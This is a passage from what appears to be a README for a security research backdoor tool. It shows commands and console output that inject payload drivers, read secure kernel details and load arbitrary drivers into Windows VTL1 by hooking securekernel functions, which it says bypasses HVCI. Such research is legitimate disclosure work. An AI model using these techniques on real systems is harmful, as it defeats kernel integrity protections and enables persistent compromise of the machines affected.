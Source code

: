 ```
[+] Payload driver image address is 0xffffc801321ee000
[+] Performing cleanup...
[+] DONE
```

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/backdoor_vm_inject.png" width="749">

This functionality also can be used for [Hypervisor-Protected Code Integrity](https://docs.microsoft.com/en-us/windows-hardware/drivers/bringup/device-guard-and-credential-guard) (HVCI) bypass to load arbitrary kernel drivers.

## Secure kernel related commands

Show basic information about secure kernel running in VTL1:

```
> .\backdoor_client.exe 0 --sk-info
[+] Running on CPU #0
[+] Collecting secure kernel information...
[+] Reading collected data from 0xfffff833df600d80...
[+] Running secure kernel detected, 15 VTL1 calls were made
[+] Secure kernel IDT vector #0 is at 0xfffff800582d7400

 securekernel.exe base: 0xfffff80058295000
         skci.dll base: 0xfffff8005838a000
                   CR3: 0x6400000
           EPT address: 0x000000011cb2f01e
              IDT base: 0xfffff80058324970
              GDT base: 0xffff9880100448b8

```

Load arbitrary secure kernel drivers into the VTL1:

```
> .\backdoor_client.exe 0 --sk-inject .\driver_example_sk.sys
[+] Running on CPU #0
[+] Loading 3072 bytes from .\driver_example_sk.sys
[+] Collecting secure kernel information...
[+] Reading collected data from 0xfffff82269800d80...
[+] Running secure kernel detected, 121 VTL1 calls were made
[+] Secure kernel IDT vector #0 is at 0xfffff8027e6d0100
[+] Secure world EPT is at 0x000000010143301e
[+] securekernel.exe is at 0xfffff8027e630000
[+] securekernel.exe image size is 0xfe000 bytes
[+] nlsdata section is at securekernel+e9000 (size: 0x128f2)
[+] securekernel!SkobReferenceObjectByHandle() is at 0xfffff8027e63cf40
[+] Driver loader virtual address is 0xfffff8027e719000 (size: 0x1a90)
[+] Patch size is 15 bytes
[+] securekernel!SkobReferenceObjectByHandle() hook was set: 0xfffff8027e63cf40 -> 0xfffff8027e71a41c
[+] Waiting for the driver loader to be executed...
[+] Driver loader was executed!
[+] VTL1 kernel memory was allocated at 0xffff988041ae3000
[+] Performing cleanup...
[+] securekernel!SkobReferenceObjectByHandle() hook was set: 0xfffff8027e63cf40 -> 0xffff988041ae441c
[+] Waiting for the payload driver to be executed...
[+] Payload driver was executed!
[+] Payload driver image address is 0xffff988041ae4a90
[+] Performing cleanup...
[+] Done
```

